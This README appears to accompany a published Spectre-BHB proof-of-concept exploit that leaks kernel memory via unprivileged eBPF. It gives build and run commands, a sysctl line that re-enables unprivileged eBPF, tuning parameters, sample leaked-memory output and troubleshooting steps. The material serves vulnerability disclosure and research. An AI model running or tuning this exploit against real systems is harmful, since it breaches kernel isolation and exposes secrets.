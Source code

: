 # Exploit inter-mode and intra-mode

## About

These are a full end-to-end exploit showing how Spectre-BHB can be abused to obtain an arbitrary read primitive to leak kernel memory.

#### What is the difference among inter-mode and intra-mode exploits?

These two exploits share a large portion of code but showcase two completely different threat models:

* [inter_mode](inter_mode) demonstrates how the unprivileged history can be used to mount spectre v2 attacks even in the presence of the ad-hoc hardware defense `eIBRS`.

* [intra_mode](intra_mode) shows same privilege mode exploitation (e.g. kernel to kernel) is not only possible but practical. This is to prove that  BTB-tagging defenses (such as `eIBRS` and `CSV2`) are not safe *by-design* in case of attacker-friendly tools such as unprivileged eBPF.

## How to run

The exploit is meant to be run on the host system and can be simply executed by issuing:

```
make TARGET=INTEL_10_GEN # or INTEL_11_GEN
./run.sh
```

In more details, `run.sh` will start with a setup phase by:

1. Ensuring that unprivileged-eBPF is enabled with `sysctl kernel.unprivileged_bpf_disabled=0`
2. Obtaining a kernel address where to start the leakage. For example, `run.sh` starts leaking from `do_syscall_64`. Any address can be used.
3. Locating the page offset where the `sys_call_table` is stored. This is needed to make the exploit reliable by evicting the `sys_call_table` to enlarge the speculative window. 

After this, the exploit is started by specifying the following parameters:

* `-a` : Start address where to leak in hexadecimal (e.g. `0xffffffffa29f3ac0`)
* `-f` : Eviction+Reload threshold. See run output to tune it (e.g. `40`)
* `-l` : Enable `sys_call_table` eviction to make the exploit reliable
* `-o` : `sys_call_table` page offset in hexadecimal (e.g. `0x300`)
* `-e` : Desired size of reduced `sys_call_table` eviction set. The lower the better but due to the noise it can be hard to obtain one (e.g. `256`)
* `-s` : `sys_call_table` eviction threshold See run output to tune it (e.g. 350)

## Expected output

```
[+] Parsed parameters: 
     -  leaking from                        0xffffffffa29f3ac0
     -  threshold E+R buffer eviction       40
    sys_call_table eviction parameters:
     -  sys_call_table page offset          0x300
     -  threshold sys_call_table eviction   350
     -  eviction set size sys_call_table    256
[+] Syscall time without eviction:          avg: 195.42  min:  170  max:  566
[+] Syscall time with large eviction set:   avg: 764.19  min:  398  max: 1966
[+] Syscall time with small eviction set:   avg: 449.23  min:  388  max: 1926
[+] Required time: 25 seconds
[+] Reload time without eviction:              avg: 11.77  min:   11  max:   13
[+] Reload time    with eviction:              avg: 172.90  min:   66  max:  511
[+] Checking if we can evict all entries: 
    - Entry 0: 0 hits (avg time 160.220001)
    - Entry 1: 0 hits (avg time 83.884003)
    OK!
[+] Required time: 1 seconds
hits: 8 1111111101010011110101111100010110101011101100011011001111010011001101111011011100000111010101001001111010111001001001100010101101010111100110010000111110010100001000111100111111001110111001000000011100111110010101011111100100100000010101110100101001111101
[+] Colliding history found after 5424 tries!
1111111101010011110101111100010110101011101100011011001111010011001101111011011100000111010101001001111010111001001001100010101101010111100110010000111110010100001000111100111111001110111001000000011100111110010101011111100100100000010101110100101001111101
[+] Required time: 4 seconds
0xffffffffa29f3ac0: 54 49 89 f8 08 89 e5 41     TI.....A
0xffffffffa29f3ac8: 44 49 89 84 0f 1f 04 00     DI......
0xffffffffa29f3ad0: 00 65 89 05 e8 5a 62 5c     .e...Zb\
0xffffffffa29f3ad8: 25 ff 03 00 00 48 83 c0     %....H..
0xffffffffa29f3ae0: 0f 25 f8 07 00 00 48 29     .%....H)
0xffffffffa29f3ae8: c4 48 8d 44 24 0f 48 83     .H.D$.H.
0xffffffffa29f3af0: e0 f0 4c 89 c6 4c 89 e7     ..L..L..
0xffffffffa29f3af8: 48 e3 3f 00 00 48 3d b4     H.?..H=.
0xffffffffa29f3b00: 00 00 00 77 2f 48 3d bf     ...w/H=.        72.000000 B/s
0xffffffffa29f3b08: 01 00 00 48 19 d2 48 21     ...H..H!        80.000000 B/s
0xffffffffa29f3b10: d0 4c 89 e7 48 8b 04 c5     .L..H...        88.000000 B/s
0xffffffffa29f3b18: 00 03 00 a3 e8 ff e0 40     .......@        96.000000 B/s
0xffffffffa29f3b20: 00 49 89 44 24 50 4c 88     .I.D$PL.        104.000000 B/s
0xffffffffa29f3b28: e7 e8 10 40 00 00 4c 88     ...@..L.        112.000000 B/s
0xffffffffa29f3b30: 65 f8 c9 c3 89 00 00 00     e.......        120.000000 B/s
0xffffffffa29f3b38: 40 70 eb 48 25 ff ff ff     @p.H%...        128.000000 B/s
0xffffffffa29f3b40: bf 48 3d 23 00 00 00 77     .H=#...w        136.000000 B/s
0xffffffffa29f3b48: dd 48 3d 24 02 00 00 48     .H=$...H        144.000000 B/s
0xffffffffa29f3b50: 19 d2 48 21 d0 44 89 e7     ..H!.D..        152.000000 B/s
0xffffffffa29f3b58: 40 8b 04 c5 00 22 00 a3     @...."..        160.000000 B/s
0xffffffffa29f3b60: e8 bb e8 40 00 49 89 44     ...@.I.D        168.000000 B/s
0xffffffffa29f3b68: 24 50 eb ba 0f 1f 40 00     $P....@.        176.000000 B/s
0xffffffffa29f3b70: 55 65 48 8b 04 25 c0 fb     UeH..%..        184.000000 B/s
0xffffffffa29f3b78: 01 00 48 89 e5 41 54 49     ..H..ATI        192.000000 B/s
0xffffffffa29f3b80: 89 fc 83 48 10 02 48 8b     ...H..H.        200.000000 B/s
0xffffffffa29f3b88: 77 78 07 1f 44 00 00 65     wx..D..e        208.000000 B/s
```

## Troubleshooting

#### [inter-mode only]  Ensure that the system is using `eIBRS` as `spectre_v2` defense and that no `spectre-bhb` mitigations are in place.
On our tested system, by issuing `/sys/devices/system/cpu/vulnerabilities/spectre_v2` we obtain `Mitigation: Enhanced IBRS, IBPB: conditional, RSB filling`.
#### Ensure that the Evict+Reload threshold is correctly selected

By running the exploit we can observe the reload time with and without eviction:

```
[+] Reload time without eviction:              avg: 11.77  min:   11  max:   13
[+] Reload time    with eviction:              avg: 172.90  min:   66  max:  511
```

Thus, a good threshold is `40`, and this can be specified using the argument `-f 40`.
We suggest to use the `avg` and `min` timings as reference to be on the safe side.

In case of a correctly selected threshold all entries will be evicted:

```
[+] Checking if we can evict all entries: 
    - Entry 0: 0 hits (avg time 160.220001)
    - Entry 1: 0 hits (avg time 83.884003)
    OK!
```
	
#### Ensure that the `sys_call_table` is correctly evicted

By running the exploit we can observe the reload time with and without eviction:

```
[+] Syscall time without eviction:          avg: 195.42  min:  170  max:  566
[+] Syscall time with large eviction set:   avg: 764.19  min:  398  max: 1966
```

Thus, a good threshold is `350`, and this can be specified using the argument `-s 350`
We suggest to use the `avg` and `min` timings as reference to be on the safe side.

In case of a correctly selected threshold, the eviction set will be reduced and the timing of the victim syscall will be still high:

```
[+] Syscall time with small eviction set:   avg: 449.23  min:  388  max: 1926
```

#### The `sys_call_table` eviction does not work.

The initial eviction set starts with an hardcoded size of 8192 congruent addresses. On same machines this may not be sufficient so it is necessary to increase this by changing the `SYS_CALL_TABLE_EV_SET_SIZE` constant.


#### I only leak 00 bytes

Very likely this means that the transient window is too small and thus that the `sys_call_table` eviction does not correctly work.

#### I cannot find a colliding history

This step may take a bit of time, especially on the 11th gen. Intel processors. We suggest to wait until ~300'000 tries are made.

#### Assertion `setrlimit(RLIMIT_MEMLOCK, &rlim)==0' failed.

Due to the raw Evict+Reload implementation, this PoC requires 24MB of eBPF maps. On some system this is beyond the allowed limit. To solve this issue ensure your user has the capability `CAP_SYS_RESOURCE`.




